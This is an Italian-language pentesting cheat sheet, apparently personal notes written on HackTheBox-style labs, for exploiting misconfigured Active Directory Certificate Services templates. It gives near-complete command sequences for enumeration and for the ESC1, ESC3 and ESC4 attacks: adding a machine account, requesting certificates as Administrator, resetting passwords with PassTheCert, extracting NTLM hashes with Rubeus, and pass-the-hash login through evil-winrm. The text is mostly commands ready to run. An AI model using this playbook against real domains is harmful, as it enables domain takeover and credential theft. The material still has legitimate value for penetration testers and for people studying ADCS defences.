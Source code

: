 ### **ENUMERAZIONE**
Cerca un template vulnerabile
```bash
certipy-ad find -u <USER> -p <PASS> -dc-ip <IP> -vulnerable -stdout
```
```powershell
./Certify.exe find /vulnerable
```
![[Pasted image 20230719143059.png]]
### **EXPLOIT ESC 1**
Hai la possibilità di enroll

```bash
impacket-addcomputer  <DOMINIO>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
![[Pasted image 20230719143908.png]]
controllo se è stato creato
```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMINIO>
```
![[Pasted image 20230719150304.png]]
Generiamo un certificato per l'account appena creatp
```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```
![[Pasted image 20230719150515.png]]
Ora dividi il certificato
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```
Usa il seguente tool per accere con il certificato
[PassTheCert/Python at main · AlmondOffSec/PassTheCert · GitHub](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)
```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
![[Pasted image 20230719150944.png]]
Entra con evil-winrm
### **EXPLOIT ESC 3**
Richiedi il certificato
```BASH
certipy-ad req -username <USER>@<IP> -password <PASS> -ca <NOME-CA> -target <NOME MACCHINA> -template <TEMPLATE LOCALE> -upn <USER DA PRENDERE>@<IP> -dns <NOME MACCHINA> -debug
```
```POWERSHELL
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:<TEMPLATE VULNERABILE> /altname:<TEMPLATE DA PRENDERE>
```
converti chiave e certificato in formato pfx12
```bash
openssl pkcs12 -in cert.pem -inkey private.key -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Carica rubeus e il cert.pfx sulla macchina e prendi l'hash ntlm
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
![[Pasted image 20230719143559.png]]
Usa l'hash per loggare tramite evil-winrm
```bash
evil-winrm -i 10.10.11.202 -u Administrator -H <HASH>
```
### **ESC 4 - ADCS**
Grazie al permesso genericWrite possiamo modificare il nostro template per renderlo vulnerabile all'ESC1
```bash
certipy-ad template -u <USER>@<DOMAIN> -p '<PASS>' -template <NOME TEMPLATE> -save-old -debug
```
![[Pasted image 20230828151521.png]]
Poi exploitalo come ESC1.
Per riportarlo alla normalità
```bash
certipy-ad template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```
![[Pasted image 20230828151547.png]]
